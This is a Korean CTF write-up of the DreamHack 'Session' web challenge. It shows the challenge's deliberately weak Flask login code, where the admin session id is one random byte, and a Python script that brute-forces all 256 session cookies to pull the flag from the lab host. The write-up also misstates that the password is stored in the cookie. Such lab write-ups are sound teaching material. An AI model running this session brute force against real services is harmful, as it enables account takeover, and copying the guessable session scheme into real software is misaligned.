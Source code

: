 ```yaml
---
title: " 드림핵 - Session "
date: 2025-04-09 10:30 +0900
categories: ["Web",'write up','DreamHack']
tags: [web ,HTML]
mermaid: true
---
```


**해당 문제는 해킹기술 중 일부를 다루고 있습니다. 이를 악용할시 아무런 법적 책임을 지지 않습니다.**

## 문제 설명
- 쿠키와 세션으로 인증 상태를 관리하는 간단한 로그인 서비스입니다.
- admin 계정으로 로그인에 성공하면 플래그를 획득할 수 있습니다

우선 로그인을 할때 쿠키와 세션을 이용하여 인증상태 관리를 하는 것으로 보아 cookie에 세션id가 존재할것이라고 예측을 하였습니다.

## 코드 분석 

```python

#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}

session_storage = {
}

@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)


```
- 이 코드에서 로그인 부분에서는 로그인 성공시 password값이 쿠키에 세팅되는 것을 볼수 있습니다. 
- 그리고 Session_storage에 무작위 위치에 admin세션값을 세팅하는 것을 볼수 있습니다. 
    - **여기서 저는 admin세션값이 세팅된 위치를 찾으면 Flag값을 얻을 수 있다고 판단하였습니다.** 
- 고민을 하던 중  `os.urandom(1).hex()`이 부분에서 힌트를 얻었습니다.
    - 1바이트로 된 무작위 16진수를 인덱스로 설정하고 있습니다. 
    - 16진수 이므로.. 256번을 반복하면 Falg 값을 얻을 수 있다고 판단하였습니다.
    **이는 brute force 을 이용해야 한다고 판단하였습니다.**

- 해당 문제를 해결하기 위해 파이썬으로 코드를 작성하였습니다.

```python

import requests
url="http://host3.dreamhack.games:9090/"
result={}

for i in range(256):
    key = f"{i:02x}"
    resp= requests.get(url, cookies={'sessionid':key})
    result[key]=len(resp.text)
    print(f"{key}:{len(resp.text)}")

maxlen=max(result.values())
maxkey= [index for index,value in result.items() if value== maxlen]
print(maxkey,maxlen)

response= requests.get(url,cookies={'sessionid':maxkey[0]})
flag_start= response.text.find("DH{")
flag_end=response.text.find("}",flag_start)
find_flag=response.text
print(f"Find Flag[+]:{find_flag[flag_start:flag_end+1]}")

```

- 이렇게 정답을 찾을 수 있었습니다.
